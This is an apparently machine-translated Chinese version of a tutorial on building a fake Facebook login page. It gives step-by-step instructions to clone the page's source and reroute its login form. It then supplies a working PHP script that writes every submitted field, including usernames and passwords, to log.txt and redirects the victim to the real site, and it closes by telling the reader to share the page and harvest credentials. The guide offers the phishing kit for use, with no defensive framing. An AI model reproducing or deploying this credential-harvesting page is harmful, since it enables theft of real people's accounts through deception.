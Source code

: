 # 如何创建脸书钓鱼页面？

> 原文:[https://www . geesforgeks . org/如何创建-Facebook-网络钓鱼-页面/](https://www.geeksforgeeks.org/how-to-create-a-facebook-phishing-page/)

![](img/8d380f06738bb7d14833d8a71cf1ccab.png)

网络钓鱼是一种创建与现有网页类型相似的网页的技术。网络钓鱼是一种攻击类型，其中伪装成可信代理的入侵者试图获取您的个人信息，如密码、信用卡号或任何其他信息。

**创建脸书网络钓鱼页面的步骤:**

*   在浏览器中打开脸书登录页面。
*   按 ctrl+U 查找源代码。
*   复制整个源代码，创建一个 PHP 文件(index.php)并粘贴它。
*   现在，搜索 string methode="POST "，它会给你两个结果，第一个是登录，第二个是注册。
*   接下来，在登录表单中将操作文件名替换为“xyz.php”。
*   现在创建一个文件“xyz.php”和“log.txt”，并将下面的代码粘贴到“xyz.php”中。

**文件名:xyz.php**

## 服务器端编程语言（Professional Hypertext Preprocessor 的缩写）

```html
<?php

// Set the location to redirect the page
header ('Location: http://www.facebook.com');

// Open the text file in writing mode
$file = fopen("log.txt", "a");

foreach($_POST as $variable => $value) {
    fwrite($file, $variable);
    fwrite($file, "=");
    fwrite($file, $value);
    fwrite($file, "\r\n");
}

fwrite($file, "\r\n");
fclose($file);
exit;
?>
```

现在你完成了，共享页面，如果有人输入用户名和密码，它将保存到 log.txt 文件中。